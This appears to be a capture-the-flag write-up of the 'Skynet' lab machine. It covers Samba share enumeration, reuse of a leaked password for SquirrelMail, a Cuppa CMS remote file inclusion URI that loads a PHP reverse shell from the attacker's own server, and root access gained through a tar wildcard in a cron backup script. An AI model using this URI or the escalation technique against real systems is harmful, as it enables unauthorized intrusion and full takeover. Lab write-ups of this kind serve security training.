

# Skynet

## Summary

**Vulnerability Exploited:** Cuppa CMS Remote File Inclusion

**Vulnerability Explanation:** An attacker can host malicious code on their own web server and execute it on a server using Cuppa CMS with a specially crafted URI. This exploit does not require authentication.

**Privilege Escalation Vulnerability:** Cron backup script executes tar with wildcard arguments and root privileges.

**Vulnerability Fix****:** No fix is currently known for Cuppa CMS Remote File Inclusion; it may be advisable to switch to a different CMS. Although changing the backup script to exclude wildcard arguments would close one avenue for privilege escalation, several kernel exploits also work against this target. Always keep software, including the operating system, up-to-date. Do not store sensitive files such as logs on insecure shares. If possible, do not send password resets in plaintext. If this is not avoidable, users should change their passwords immediately after the reset and remove the reset emails from their inboxes.

## Penetration

We begin with a port scan of the target host using nmap.

We enumerate Samba shares and grab whatever files we can.

We are not able to access the milesdyson share (yet), but we grab some important files from the anonymous share. The file log1.txt conatins a list of what appears to be passwords, although it is not yet obvious what they might open.

Now we begin enumerating web content.

Gobuster finds several directories, most of which are password protected. However, we are able to access /squirrelmail.

We are able to sign in to SquirrelMail with the credentials milesdyson:cyborg007haloterminator. (The password was the first in the logfile from the anonymous share.)

In milesdyson's inbox, we find a password reset for his Samba account in plain text. We are able to use the password to access the milesdyson share.

We get notes\important.txt.

The note reveals a secret internal web directory with a CMS console.

Gobuster finds the Cuppa CMS admin console at /45kra24zxs28v3yd/administrator.

Cuppa has a known remote file inclusion vulnerability. We can host a php reverse shell on our own web server and launch it on the victim using a special URI.

**http://\<victim ip\>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://\<host ip\>/shell.php?**

With this level of access, we can access some of milesdyson's files.

We now begin looking for privilege escalation vulnerabilities. We find an interesting cron job that runs every minute.

Unfortunately, the backup.sh script has very strong permissions, so we can't edit it directly. However, the fact that it passes a wildcard argument ("\*") to tar is itself a vulnerability. Essentially, tar can accept flags as arguments to execute arbitrary code while it is compressing or decompressing files. Since tar is passed a wildcard in this script, we can write spurious files to the /var/www/html that tar will mistake for these flags. For our first attempt, we attempt to get tar (with root privileges) to grant all users the right to use sudo with no password.

Unfortunately, this does not work as expected. We try again to add a new root user minus:Pass123! by editing /etc/passwd.

This time, we are successful and gain root privileges.

